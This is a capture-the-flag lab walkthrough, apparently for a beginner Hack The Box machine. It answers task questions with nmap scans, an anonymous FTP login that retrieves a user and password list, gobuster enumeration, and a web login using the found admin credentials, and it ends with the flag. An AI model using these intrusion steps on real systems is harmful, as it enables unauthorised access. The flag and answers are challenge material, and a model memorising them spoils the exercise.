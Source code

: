 # Research

TASK 1

What nmap scanning switch employs the use of default scripts during a scan?

-sC

TASK 2

What service version is found to be running on port 21?

-sC or -sV are both valid

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.19.63 -p 20,21 -sV   
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-25 00:27 BST
    Nmap scan report for 10.129.19.63
    Host is up (0.022s latency).

    PORT   STATE  SERVICE  VERSION
    20/tcp closed ftp-data
    21/tcp open   ftp      vsftpd 3.0.3
    Service Info: OS: Unix


vsftpd 3.0.3

TASK 3

What FTP code is returned to us for the "Anonymous FTP login allowed" message?

Returned during -sC portscan

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.19.63 -p 20,21 -sC
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-25 00:28 BST
    Nmap scan report for 10.129.19.63
    Host is up (0.021s latency).

    PORT   STATE  SERVICE
    20/tcp closed ftp-data
    21/tcp open   ftp
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.10.14.78
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
    |_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

    Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

FTP code **230**

TASK 4

What command can we use to download the files we find on the FTP server?

GET

TASK 5

What is one of the higher-privilege sounding usernames in the list we retrieved?

After logging into FTP server and issuing $ls we can FTP>GET ALL

    ┌──(kali㉿kali)-[~]
    └─$ ftp 10.129.19.63                                                                                                                                                        127 ⨯
    Connected to 10.129.19.63.
    220 (vsFTPd 3.0.3)
    Name (10.129.19.63:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    229 Entering Extended Passive Mode (|||40314|)
    150 Here comes the directory listing.
    -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
    -rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
    226 Directory send OK.
    ftp> get all
    allowed.userlist	allowed.userlist.passwd

The highest privilege user from allowed.userlist appears to be 'admin'

    ┌──(kali㉿kali)-[~]
    └─$ cat allowed.userlist
    aron
    pwnmeow
    egotisticalsw
    admin

    ┌──(kali㉿kali)-[~]
    └─$ cat allowed.userlist.passwd 
    root
    Supersecretpassword1
    @BaASD&9032123sADS
    rKXM59ESxesUFHAd

admin

TASK 6

What version of Apache HTTP Server is running on the target host?

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.19.63 -p 80 -sV
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-25 00:37 BST
    Nmap scan report for 10.129.19.63
    Host is up (0.016s latency).

    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

2.4.41

TASK 7

What is the name of a handy web site analysis plug-in we can install in our browser?


Wappalyzer


TASK 8

What switch can we use with gobuster to specify we are looking for specific filetypes?

    ┌──(kali㉿kali)-[~]
    └─$ gobuster dir --help
    Uses directory/file enumeration mode

    Usage:
      gobuster dir [flags]

    Flags:
      -f, --add-slash                       Append / to each request
      -c, --cookies string                  Cookies to use for the requests
      -d, --discover-backup                 Upon finding a file search for backup files
          --exclude-length ints             exclude the following content length (completely ignores the status). Supply multiple times to exclude multiple sizes.
      -e, --expanded                        Expanded mode, print full URLs
      -x, --extensions string               File extension(s) to search for


-x


TASK 9

What file have we found that can provide us a foothold on the target?

    ┌──(kali㉿kali)-[~]
    └─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.129.19.63 -x php
    ==============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.19.63
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2022/05/25 00:47:15 Starting gobuster in directory enumeration mode
    ===============================================================
    /.hta                 (Status: 403) [Size: 277]
    /.hta.php             (Status: 403) [Size: 277]
    /.htaccess            (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /.htaccess.php        (Status: 403) [Size: 277]
    /.htpasswd.php        (Status: 403) [Size: 277]
    /assets               (Status: 301) [Size: 313] [--> http://10.129.19.63/assets/]
    /config.php           (Status: 200) [Size: 0]                                    
    /css                  (Status: 301) [Size: 310] [--> http://10.129.19.63/css/]   
    /dashboard            (Status: 301) [Size: 316] [--> http://10.129.19.63/dashboard/]
    /fonts                (Status: 301) [Size: 312] [--> http://10.129.19.63/fonts/]    
    /index.html           (Status: 200) [Size: 58565]                                   
    /js                   (Status: 301) [Size: 309] [--> http://10.129.19.63/js/]       
    /login.php            (Status: 200) [Size: 1577]                                    
    /logout.php           (Status: 302) [Size: 0] [--> login.php]                       
    /server-status        (Status: 403) [Size: 277]                                     

    ===============================================================
    2022/05/25 00:47:31 Finished
    ===============================================================
                                          
login.php

# Reproduce

Visiting http://10.129.19.63/login.php

Username: admin
Password: rKXM59ESxesUFHAd

    Dashboard: Here is your flag: c7110277ac44d78b6a9fff2232434d16


# Flag

c7110277ac44d78b6a9fff2232434d16
